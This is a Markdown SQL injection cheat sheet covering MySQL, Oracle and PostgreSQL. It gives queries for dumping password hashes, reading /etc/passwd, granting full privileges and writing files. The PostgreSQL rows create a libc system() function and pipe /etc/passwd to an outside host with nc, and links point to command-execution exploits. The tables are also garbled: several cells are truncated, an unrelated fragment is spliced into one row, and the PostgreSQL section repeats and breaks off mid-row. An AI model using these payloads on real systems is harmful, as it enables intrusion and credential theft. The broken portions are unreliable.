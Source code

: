 ```yaml
---
description: 
linkTitle: SQL
title: SQL Injection cheat sheet
weight: 10
---
```


# **MySQL SQL Injection**

| Command | SQL Query | Explanation |
| --- | --- | --- |
| Version | SELECT @@version | Retrieves the version of the MySQL server. |
| Comments | SELECT 1; #comment<br>SELECT /comment/1; | Demonstrates how to use comments in SQL queries. Single-line and multi-line comments are shown. |
| Current User | SELECT user();<br>SELECT system_user(); | Retrieves the current MySQL user and the system user that the MySQL server is running as. |
| List Users | SELECT user FROM mysql.user; — priv | Lists all users in the MySQL database. Requires administrative privileges. |
| List Password Hashes | SELECT host, user, password FROM mysql.user; — priv | Retrieves host, username, and password hashes from the MySQL user table. Requires administrative privileges. |
| Password Cracker | http://www.openwall.com/john/ | Suggests a tool for cracking MySQL password hashes. |
| List Privileges | SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges; — priv<br>SELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user; — priv | Lists various user privileges. The first query lists privileges from the information_schema database, while the second query lists detailed privileges for each user from the mysql.user table. Both require administrative privileges. |
| List DBA Accounts | SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'SUPER';<br>SELECT host, user FROM mysql.user WHERE Super_priv = 'Y'; — priv | Lists database administrator accounts. The first query checks user privileges in the information_schema, and the second query checks the Super_priv column in mysql.user. Both require administrative privileges. |
| Current Database | SELECT database() | Retrieves the name of the current database. |
| List Databases | SELECT schema_name FROM information_schema.schemata; — for MySQL >= v5.0<br>SELECT distinct(db) FROM mysql.db — priv | Lists all databases. The first query lists schemas for MySQL version 5.0 and above, while the second query retrieves databases from the mysql.db table and requires administrative privileges. |
| List Columns | SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema' | Lists columns in all tables, excluding system tables, in the information_schema database. |
| List Tables | SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema' | Lists all tables, excluding system tables, in the information_schema database. |
| Find Tables From Column Name | SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = 'username'; | Finds tables that contain a column named ‘username’ in the information_schema database. |
| Select Nth Row | SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 0; # rows numbered from 0<br>SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 1; # rows numbered from 0 | Selects the Nth row from a table. The OFFSET keyword is used to specify which row to start from. |
| Select Nth Char | SELECT substr('abcd', 3, 1); # returns c | Selects the Nth character from a string. In this example, it returns the 3rd character from the string 'abcd'. |
| Bitwise AND | SELECT 6 & 2; # returns 2<br>SELECT 6 & 1; # returns 0 | Demonstrates the use of bitwise AND operation in SQL. In these examples, it performs a bitwise AND on the numbers 6 and 2, and 6 and 1, respectively. |
| ASCII Value -> Char | SELECT char(65); # returns A | Converts an ASCII value to its corresponding character. In this example, ASCII 65 is converted to 'A'. |
| Char -> ASCII Value | SELECT ascii('A'); # returns 65 | Converts a character to its corresponding ASCII value. In this example, 'A' is converted to ASCII 65. |
| Casting | SELECT cast('1' AS unsigned integer);<br>SELECT cast('123' AS char); | Demonstrates how to cast data types in SQL. The first query casts the string '1' to an unsigned integer, and the second query casts the string '123' to a character data type. |
| String Concatenation | SELECT CONCAT('A','B'); #returns AB<br>SELECT CONCAT('A','B','C'); # returns ABC | Shows how to concatenate strings in SQL. The first query concatenates 'A' and 'B', and the second query concatenates 'A', 'B', and 'C'. |
| If Statement | SELECT if(1=1,'foo','bar'); — returns 'foo' | Demonstrates the use of an IF statement in SQL. This query checks if 1 equals 1 and returns 'foo'; otherwise, it would return 'bar'. |
| Case Statement | SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END; # returns A | Demonstrates the use of a CASE statement in SQL. This query checks if 1 equals 1 and returns 'A'; otherwise, it would return 'B'. |
| Avoiding Quotes | SELECT 0x414243; # returns ABC | Shows how to use hexadecimal values to avoid quotes in SQL queries. This query returns the string 'ABC' from its hexadecimal representation. |
| Time Delay | SELECT BENCHMARK(1000000,MD5('A'));<br>SELECT SLEEP(5); # >= 5.0.12 | Introduces methods to create a time delay in SQL queries. The BENCHMARK function repeats an operation a specified number of times, and SLEEP pauses execution for a specified number of seconds. |
| Make DNS Requests | Impossible? | Notes that making DNS requests through MySQL is generally not possible. |
| Command Execution | http://www.0xdeadbeef.info/exploits/raptor_udf.c | Explains how to execute OS commands via MySQL under certain conditions, by uploading a shared object file into the server's library directory. Requires administrative privileges and specific server configurations. |
| Local File Access | ...' UNION ALL SELECT LOAD_FILE('/etc/passwd') — priv, can only read world-readable files.<br>SELECT * FROM mytable INTO dumpfile '/tmp/somefile'; — priv, write to file system | Demonstrates how to access local files through SQL queries. The first query reads a file, and the second writes to a file. Both require administrative privileges. |
| Hostname, IP Address | SELECT @@hostname; | Retrieves the hostname of the MySQL server. |
| Create Users | CREATE USER test1 IDENTIFIED BY 'pass1'; — priv | Creates a new user in MySQL with the specified password. Requires administrative privileges. |
| Delete Users | DROP USER test1; — priv | Deletes a user from MySQL. Requires administrative privileges. |
| Make User DBA | GRANT ALL PRIVILEGES ON . TO test1@'%'; — priv | Grants a user all privileges on all databases and tables, effectively making them a DBA. Requires administrative privileges. |
| Location of DB files | SELECT @@datadir; | Retrieves the directory where database files are stored in the MySQL server. |
| Default/System Databases | information_schema (>= mysql 5.0)<br>mysql | Lists default and system databases in MySQL. 'information_schema' is available from MySQL version 5.0 and above, and 'mysql' is the system database that contains user and privilege information. |

# Oracle SQL Injection

| Command | SQL Query | Explanation |
| --- | --- | --- |
| Version | SELECT banner FROM v$version WHERE banner LIKE 'Oracle%';<br>SELECT banner FROM v$version WHERE banner LIKE 'TNS%';<br>SELECT version FROM v$instance; | Retrieves the version of the Oracle database. The first query gets the Oracle DB version, the second gets the Oracle TNS Listener version, and the third gets the instance version. |
| Comments | SELECT 1 FROM dual — comment | Demonstrates how to use comments in SQL queries in Oracle. 'dual' is a special table used in Oracle. |
| Current User | SELECT user FROM dual | Retrieves the current user of the Oracle database. |
| List Users | SELECT username FROM all_users ORDER BY username;<br>SELECT name FROM sys.user$; — priv | Lists all users in the Oracle database. The first query lists usernames from the all_users view, and the second query, which requires administrative privileges, lists users from the sys.user$ table. |
| List Password Hashes | SELECT name, password, astatus FROM sys.user$ — priv, <= 10g. astatus tells you if acct is locked<br>SELECT name,spare4 FROM sys.user$ — priv, 11g | Retrieves user names and password hashes from the Oracle database. The first query is for Oracle versions up to 10g and includes account status, while the second query is for version 11g. Both require administrative privileges. |
| Password Cracker | http://www.red-database-security.com/software/checkpwd.html | Suggests a tool for cracking Oracle password hashes. |
| List Privileges | SELECT * FROM session_privs; — current privs<br>SELECT * FROM dba_sys_privs WHERE grantee = 'DBSNMP'; — priv, list a user’s privs<br>SELECT grantee FROM dba_sys_privs WHERE privilege = 'SELECT ANY DICTIONARY'; — priv, find users with a particular priv<br>SELECT GRANTEE, GRANTED_ROLE FROM DBA_ROLE_PRIVS; | Lists privileges of users in the Oracle database. The first query lists current session privileges, the second lists privileges of a specific user, the third finds users with a particular privilege, and the fourth lists roles granted to users. The last three queries require administrative privileges. |
| List DBA Accounts | SELECT DISTINCT grantee FROM dba_sys_privs WHERE ADMIN_OPTION = 'YES'; — priv, list DBAs, DBA roles | Lists database administrator accounts in Oracle. This query finds users with administrative privileges and requires administrative privileges itself. |
| Current Database | SELECT global_name FROM global_name;<br>SELECT name FROM v$database;<br>SELECT instance_name FROM v$instance;<br>SELECT SYS.DATABASE_NAME FROM DUAL; | Retrieves the name of the current Oracle database. Each query provides a different way to obtain the current database or instance name. |
| List Databases | SELECT DISTINCT owner FROM all_tables; — list schemas (one per user)<br>— Also query TNS listener for other databases. See http://www.jammed.com/~jwa/hacks/security/tnscmd/tnscmd-doc.html (services | status). |
| List Columns | SELECT column_name FROM all_tab_columns WHERE table_name = 'blah';<br>SELECT column_name FROM all_tab_columns WHERE table_name = 'blah' and owner = 'foo'; | Lists columns in Oracle tables. The first query lists columns of a specified table, and the second query specifies both table and owner. |
| List Tables | SELECT table_name FROM all_tables;<br>SELECT owner, table_name FROM all_tables; | Lists all tables in Oracle. The first query lists table names, and the second includes the owner of each table. |
| Find Tables From Column Name | SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE '%PASS%'; — NB: table names are upper case | Finds Oracle tables that contain a specific column. The query lists tables with a column name like '%PASS%'. Note that Oracle table names are usually in uppercase. |
| Select Nth Row | SELECT username FROM (SELECT ROWNUM r, username FROM all_users ORDER BY username) WHERE r=9; — gets 9th row (rows numbered from 1) | Retrieves the Nth row from a result set in Oracle. This example gets the 9th row from the all_users table. Oracle rows are numbered starting from 1. |
| Select Nth Char | SELECT substr('abcd', 3, 1) FROM dual; — gets 3rd character, ‘c’ | Retrieves the Nth character from a string in Oracle. This example gets the 3rd character from 'abcd'. |
| Bitwise AND | SELECT bitand(6,2) FROM dual; — returns 2<br>SELECT bitand(6,1) FROM dual; — returns 0 | Demonstrates the use of bitwise AND in Oracle. The first query returns 2, and the second returns 0. |
| ASCII Value -> Char | SELECT chr(65) FROM dual; — returns A | Converts an ASCII value to its corresponding character in Oracle. This example converts ASCII 65 to 'A'. |
| Char -> ASCII Value | SELECT ascii('A') FROM dual; — returns 65 | Converts a character to its corresponding ASCII value in Oracle. This example converts 'A' to ASCII 65. |
| Casting | SELECT CAST(1 AS char) FROM dual;<br>SELECT CAST('1' AS int) FROM dual; | Demonstrates how to cast data types in Oracle SQL. The first query casts the number 1 to a character, and the second casts the string '1' to an integer. |
| String Concatenation | SELECT 'A' |  |
| If Statement | BEGIN IF 1=1 THEN dbms_lock.sleep(3); ELSE dbms_lock.sleep(0); END IF; END; — doesn’t play well with SELECT statements | Demonstrates the use of an IF statement in Oracle, using PL/SQL. This example uses dbms_lock.sleep for a conditional time delay. Note that IF statements are typically used in PL/SQL blocks rather than directly in SELECT statements. |
| Case Statement | SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END FROM dual; — returns 1<br>SELECT CASE WHEN 1=2 THEN 1 ELSE 2 END FROM dual; — returns 2 | Demonstrates the use of a CASE statement in Oracle SQL. The first query returns 1 if the condition is true (1=1), and the second returns 2 if the condition is false (1=2). |
| Avoiding Quotes | SELECT chr(65) |  |
| Time Delay | BEGIN DBMS_LOCK.SLEEP(5); END; — priv, can’t seem to embed this in a SELECT<br>SELECT UTL_INADDR.get_host_name('10.0.0.1') FROM dual; — if reverse looks are slow<br>SELECT UTL_INADDR.get_host_address('blah.attacker.com') FROM dual; — if forward lookups are slow<br>SELECT UTL_HTTP.REQUEST('http://google.com/') FROM dual; — if outbound TCP is filtered / slow<br>— Also see http://technet.microsoft.com/en-us/library/cc512676.aspx to create a time delay | Introduces methods to create a time delay in Oracle SQL. The DBMS_LOCK.SLEEP function pauses execution, but it's generally not embeddable in a SELECT statement. Other methods involve slow network operations. |
| Make DNS Requests | SELECT UTL_INADDR.get_host_address('google.com') FROM dual;<br>SELECT UTL_HTTP.REQUEST('http://google.com/') FROM dual; | Demonstrates how to make DNS requests in Oracle SQL. The first query resolves an IP address, and the second makes an HTTP request. |
| Command Execution | http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql | Provides a link to an exploit that can be used to execute commands in Oracle under certain conditions. |
| Local File Access | http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql — can sometimes be used. Check that the following is non-null: SELECT value FROM v$parameter2 WHERE name = 'utl_file_dir';<br>http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql — can be used to read and write files if installed (not available in Oracle Express). | Provides links to exploits that can be used for local file access in Oracle. The first exploit checks the 'utl_file_dir' parameter, and the second exploit can be used to read and write files. |
| Hostname, IP Address | SELECT UTL_INADDR.get_host_name FROM dual;<br>SELECT host_name FROM v$instance;<br>SELECT UTL_INADDR.get_host_address FROM dual; — gets IP address<br>SELECT UTL_INADDR.get_host_name('10.0.0.1') FROM dual; — gets hostnames | Retrieves the hostname and IP address of the Oracle server. The queries use different functions and views to obtain this information. |
| Location of DB files | SELECT name FROM V$DATAFILE; | Retrieves the locations of database files in Oracle. This query lists the data files as seen in the V$DATAFILE view. |
| Default/System Databases | SYSTEM<br>SYSAUX | Lists default and system databases in Oracle. 'SYSTEM' and 'SYSAUX' are key system tablespaces in Oracle. |
|  |  |  |

# **Postgres SQL Injection**

| Command | SQL Query | Explanation |
| --- | --- | --- |
| Version | SELECT version() | Retrieves the version of the PostgreSQL database. |
| Comments | SELECT 1; --comment<br>SELECT /comment/1; | Demonstrates how to use comments in SQL queries in PostgreSQL. Both -- and /* */ are used for commenting. |
| Current User | SELECT user;<br>SELECT current_user;<br>SELECT session_user;<br>SELECT usename FROM pg_user;<br>SELECT getpgusername(); | Retrieves the current user of the PostgreSQL database. Multiple ways are shown to get the username, including from the pg_user system table. |
| List Users | SELECT usename FROM pg_user | Lists all users in the PostgreSQL database. pg_user is a system catalog view that shows user information. |
| List Password Hashes | SELECT usename, passwd FROM pg_shadow -- priv | Retrieves user names and password hashes from the PostgreSQL database. This query requires administrative privileges and is run on the pg_shadow table, which contains information about users. |
| Password Cracker | http://pentestmonkey.net/blog/cracking-postgres-hashes/ | Suggests a tool for cracking PostgreSQL's MD5-based password hashes. |
| List Privileges | SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user | Lists privileges of users in the PostgreSQL database. The query shows which users have privileges like creating databases, superuser access, and catalog update permissions. |
| List DBA Accounts | SELECT usename FROM pg_user WHERE usesuper IS TRUE | Lists database administrator accounts in PostgreSQL. This query finds users with superuser privileges. |
| Current Database | SELECT current_database() | Retrieves the name of the current PostgreSQL database. current_database() is a function that returns the database name. |
| List Databases | SELECT datname FROM pg_database | Lists all databases in PostgreSQL. pg_database is a system catalog that contains information about databases. |
| List Columns | SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE 'public') | Lists columns in PostgreSQL tables. This query joins several system catalogs to list columns in tables in the 'public' schema. |
| List Tables | SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN ('r','') AND n.nspname NOT IN ('pg_catalog', 'pg_toast') AND pg_catalog.pg_table_is_visible(c.oid) | Lists all tables in PostgreSQL. This query filters out system tables and lists user-defined tables. |
| Find Tables From Column Name | SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE 'public') AND attname LIKE '%password%'; | Finds PostgreSQL tables that contain a specific column. This query is useful for identifying tables with columns containing specific names, such as those related to passwords. |
| Select Nth Row | SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 0; -- rows numbered from 0<br>SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 1; | Retrieves the Nth row from a result set in PostgreSQL. This example demonstrates getting the first and second rows from the pg_user table. PostgreSQL rows are numbered starting from 0. |
| Select Nth Char | SELECT substr('abcd', 3, 1); -- returns c | Retrieves the Nth character from a string in PostgreSQL. This example gets the 3rd character from 'abcd'. |
| Bitwise AND | SELECT 6 & 2; -- returns 2<br>SELECT 6 & 1; -- returns 0 | Demonstrates the use of bitwise AND in PostgreSQL. The first query returns 2, and the second returns 0. |
| ASCII Value -> Char | SELECT chr(65); | Converts an ASCII value to its corresponding character in PostgreSQL. This example converts ASCII 65 to 'A'. |
| Char -> ASCII Value | SELECT ascii('A'); | Converts a character to its corresponding ASCII value in PostgreSQL. This example converts 'A' to ASCII 65. |
| Casting | SELECT CAST(1 as varchar);<br>SELECT CAST('1' as int); | Demonstrates how to cast data types in PostgreSQL. The first query casts the number 1 to a varchar, and the second casts the string '1' to an integer. |
| String Concatenation | SELECT 'A' |  |
| If Statement | IF statements only seem valid inside functions, so aren’t much use for SQL injection. See CASE statement instead. | Explains that IF statements are typically used inside PL/pgSQL functions in PostgreSQL and are not directly applicable for SQL injection. |
| Case Statement | SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END; -- returns A | Demonstrates the use of a CASE statement in PostgreSQL. This query returns 'A' if the condition (1=1) is true. |
| Avoiding Quotes | SELECT CHR(65) |  |
| Time Delay | SELECT pg_sleep(10); -- postgres 8.2+ only<br>CREATE OR REPLACE FUNCTION sleep(int) RETURNS int AS '/lib/libc.so.6', 'sleep' language 'C' STRICT; SELECT sleep(10); -- priv, create your own sleep function. Taken from http://www.portcullis.co.uk/uplds/whitepapers/Having_Fun_With_PostgreSQL.pdf. | Introduces methods to create a time delay in PostgreSQL SQL. The pg_sleep function pauses execution, and the second query demonstrates creating a custom sleep function. Note that the creation of a custom function requires administrative privileges. |
| Make DNS Requests | Generally not possible in postgres. However if http://www.leidecker.info/pgshell/Having_Fun_With_PostgreSQL.html is installed (it isn’t by default) it can be used to resolve hostnames (assuming you have DBA rights): SELECT * FROM dblink('host=put.your.hostname.here user=someuser dbname=somedb', 'SELECT version()') RETURNS (result TEXT); Alternatively, if you have DBA rights you could run an OS-level command (see below) to resolve hostnames, e.g. “ping pentestmonkey.net”. | Notes that making DNS requests through PostgreSQL is generally not possible. However, the dblink function or OS-level commands (for users with DBA rights) can be used for this purpose. |
| Command Execution | CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT; -- priv<br>SELECT system('cat /etc/passwd | nc 10.0.0.1 8080'); -- priv, commands run as postgres/pgsql OS-level user | Demonstrates how to execute system commands in PostgreSQL. This requires creating a user-defined function in C and is generally possible only with administrative privileges. The commands are executed with the privileges of the PostgreSQL server process. |
| Local File Access | CREATE TABLE mydata(t text);<br>COPY mydata FROM '/etc/passwd'; -- priv, can read files which are readable by postgres OS-level user<br>... UNION ALL SELECT t FROM mydata LIMIT 1 OFFSET 1; -- get data back one and the second returns 0. |  |
| ASCII Value -> Char | SELECT chr(65); | Converts an ASCII value to its corresponding character in PostgreSQL. This example converts ASCII 65 to 'A'. |
| Char -> ASCII Value | SELECT ascii('A'); | Converts a character to its corresponding ASCII value in PostgreSQL. This example converts 'A' to ASCII 65. |
| Casting | SELECT CAST(1 as varchar);<br>SELECT CAST('1' as int); | Demonstrates how to cast data types in PostgreSQL SQL. The first query casts the number 1 to a varchar, and the second casts the string '1' to an integer. |
| String Concatenation | SELECT 'A' |  |
| If Statement | IF statements only seem valid inside functions, so aren’t much use for SQL injection. See CASE statement instead. | Notes that IF statements in PostgreSQL are typically used inside PL/pgSQL functions and are not directly applicable for SQL injection. The CASE statement is suggested as an alternative. |
| Case Statement | SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END; -- returns A | Demonstrates the use of a CASE statement in PostgreSQL SQL. This query returns 'A' if the condition is true (1=1). |
| Avoiding Quotes | SELECT CHR(65) |  |
| Time Delay | SELECT pg_sleep(10); -- postgres 8.2+ only<br>CREATE OR REPLACE FUNCTION sleep(int) RETURNS int AS '/lib/libc.so.6', 'sleep' language 'C' STRICT; SELECT sleep(10); -- priv, create your own sleep function. Taken from http://www.portcullis.co.uk/uplds/whitepapers/Having_Fun_With_PostgreSQL.pdf . | Introduces methods to create a time delay in PostgreSQL SQL. The pg_sleep function pauses execution for a specified number of seconds. The second method involves creating a custom sleep function using C language. This requires administrative privileges. |
| Make DNS Requests | Generally not possible in PostgreSQL. However, if http://www.leidecker.info/pgshell/Having_Fun_With_PostgreSQL.html is installed (it isn’t by default) it can be used to resolve hostnames (assuming you have DBA rights):<br>SELECT * FROM dblink('host=put.your.hostname.here user=someuser dbname=somedb', 'SELECT version()') RETURNS (result TEXT);<br>Alternatively, if you have DBA rights you could run an OS-level command (see below) to resolve hostnames, e.g. “ping pentestmonkey.net”. | Notes that making DNS requests through PostgreSQL is generally not possible. However, with certain extensions or DBA rights, there are workarounds like using dblink or OS-level commands. |
| Command Execution | CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT; -- priv<br>SELECT system('cat /etc/passwd | nc 10.0.0.1 8080'); -- priv, commands run as postgres/pgsql OS-level user |